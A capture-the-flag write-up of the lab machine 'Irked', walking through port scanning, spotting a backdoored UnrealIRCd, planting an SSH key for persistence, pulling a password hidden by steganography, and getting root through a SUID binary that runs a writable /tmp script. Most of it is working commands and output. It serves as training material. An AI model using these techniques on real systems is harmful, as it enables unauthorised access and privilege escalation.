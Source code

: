 # Writeup Irked

## Scan

```bash
$ nmap -sS -T4 -p- -vv $target

PORT      STATE SERVICE    REASON
22/tcp    open  ssh        syn-ack ttl 63
80/tcp    open  http       syn-ack ttl 63
111/tcp   open  rpcbind    syn-ack ttl 63
6697/tcp  open  ircs-u     syn-ack ttl 63
8067/tcp  open  infi-async syn-ack ttl 63
46561/tcp open  unknown    syn-ack ttl 63
65534/tcp open  unknown    syn-ack ttl 63
```

## Enumeration

It seems there is an IRC service running on port 6697.
```bash
$ weechat
/server add irked 10.10.10.117
/connect irked
│16:12:31   irked  -- | This server was created Mon May 14 2018 at 13:12:50 EDT
│16:12:31   irked  -- | irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
```

Let's look for irc scripts.
```bash
$ locate "*.nse" | grep irc
$ nmap --script irc-unrealircd-backdoor -p6697 $target
PORT     STATE SERVICE REASON
6697/tcp open  ircs-u  syn-ack ttl 63
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
```
There is an empty `~ircd/.ssh` folder and `PublicKeyAuth` is enabled.  
We can generate our own public key pair to gain persistent ssh access.
```bash
# on remote
$ cat /etc/ssh/sshd_config
...
PubkeyAuthentication yes
```
```bash
# attacker
$ mkdir -p ~/.ssh/
$ ssh-keygen -t rsa
$ vim config
Host 10.10.10.117
    HostName 10.10.10.117
	User ircd
	IdentityFile ~/.ssh/htb
$ chmod 644 config
# send htb.pub to remote machine
$ cat htb.pub >> authorized_keys
$ chmod 600 authorized_keys
# attacker
$ ssh -vvF ~/.ssh/config $target
```

## Privilege Escalation
There is a world readable file in `/home/djmardov` and also a hint in `.bash_history` that LSB steganography was used on the image.  
```bash
$ find / -xdev -not \( -user $USER -or -user 0 \) \
  -not \( -group $USER -or -group 0 \) -perm -o+r \
  -exec ls -lad \{} \; 2>/dev/null

-rw-r--r-- 1 djmardov djmardov 52 May 16  2018 /home/djmardov/Documents/.backup
$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

```bash
# attacker
$ apt install steghide
$ steghide extract -sf irked.jpg -xf out
$ file out
out.jpg: ASCII text
$ cat out
Kab6h+m+bbp2J:HG
$ sshpass -p 'Kab6h+m+bbp2J:HG' ssh djmardov@$target
```

There is a binary with SUID bit set that we can reverse:
```bash
$ find / -perm -4000 -user 0 -type f -exec ls -latr \{} \; 2>/dev/null
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
```

### Static Binary Analysis

The binary is dynamically linked to libc:
```bash
$ for i in {1..3}; do ldd viewuser | grep libc; done
libc.so.6 => /lib32/libc.so.6 (0xf7d4e000)
libc.so.6 => /lib32/libc.so.6 (0xf7cd2000)
libc.so.6 => /lib32/libc.so.6 (0xf7cfb000)
```

We can see 2 calls to `put` followed by a call to `setuid` and `system`.  
```bash
$ objdump -M intel -d viewuser| grep main.: -A40
0000057d <main>:
 57d:   8d 4c 24 04             lea    ecx,[esp+0x4]
 581:   83 e4 f0                and    esp,0xfffffff0
 584:   ff 71 fc                push   DWORD PTR [ecx-0x4]
 ...
  5d2:   e8 49 fe ff ff          call   420 <setuid@plt>
 5d7:   83 c4 10                add    esp,0x10
 5da:   83 ec 0c                sub    esp,0xc
 5dd:   8d 83 f1 e6 ff ff       lea    eax,[ebx-0x190f]
 5e3:   50                      push   eax
 5e4:   e8 17 fe ff ff          call   400 <system@plt>
```

The argument (`const char*`) for system call `system` get's pushed onto the stack.  
`ebx` is used to reference the address and gets assigned here:
```
 58c:   e8 ef fe ff ff          call   480 <__x86.get_pc_thunk.bx>
 591:   81 c3 6f 1a 00 00       add    ebx,0x1a6f
```
This call is used in position independent code (PIC) on x86 and makes `ebx` directly point into our global offset table (GOT). So what is the argument of `system`? With all that information we can calculate the address that gets pushed on the stack. The address directly points into the .rodata section and points to the string `/tmp/userlist`.
```bash
$ python -c 'print hex(0x591+0x1a6f-0x190f)'
0x6f1
$ readelf -S viewuser
...
[16] .rodata           PROGBITS        00000678 000678 000088 00   A  0   0  4
...
$ hexdump -C -s 0x6f1 -n 16 viewuser
000006f1  2f 74 6d 70 2f 6c 69 73  74 75 73 65 72 73 00 01  |/tmp/listusers..|
```
Alternative way to view `.rodata` section:
```bash
$ objdump -dj .rodata viewuser
viewuser:     file format elf32-i386

Disassembly of section .rodata:

00000678 <_fp_hw>:
 678:	03 00 00 00                                         ....

0000067c <_IO_stdin_used>:
 67c:	01 00 02 00 54 68 69 73 20 61 70 70 6c 69 63 61     ....This applica
 68c:	74 69 6f 6e 20 69 73 20 62 65 69 6e 67 20 64 65     tion is being de
 69c:	76 6c 65 6f 70 65 64 20 74 6f 20 73 65 74 20 61     vleoped to set a
 6ac:	6e 64 20 74 65 73 74 20 75 73 65 72 20 70 65 72     nd test user per
 6bc:	6d 69 73 73 69 6f 6e 73 00 00 00 00 49 74 20 69     missions....It i
 6cc:	73 20 73 74 69 6c 6c 20 62 65 69 6e 67 20 61 63     s still being ac
 6dc:	74 69 76 65 6c 79 20 64 65 76 65 6c 6f 70 65 64     tively developed
 6ec:	00 77 68 6f 00 2f 74 6d 70 2f 6c 69 73 74 75 73     .who./tmp/listus
 6fc:	65 72 73 00                                         ers.
```
So obviously the file `/tmp/userlist` gets executed as root an the machine.

### Get root shell
```bash
djmardov@irked:/tmp$ echo -e '#!/bin/bash\n/bin/bash' > listusers
djmardov@irked:/tmp$ chmod 777 listusers
djmardov@irked:/tmp$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-03-30 16:41 (:0)
djmardov pts/2        2019-03-30 18:22 (10.10.14.22)
djmardov pts/3        2019-03-30 18:44 (10.10.14.20)
root@irked:/tmp# whoami
root
```

**References:**
* https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html  
* https://thoughts.theden.sh/post/elfmagic/  
* https://www.suse.com/c/making-sense-hexdump/  
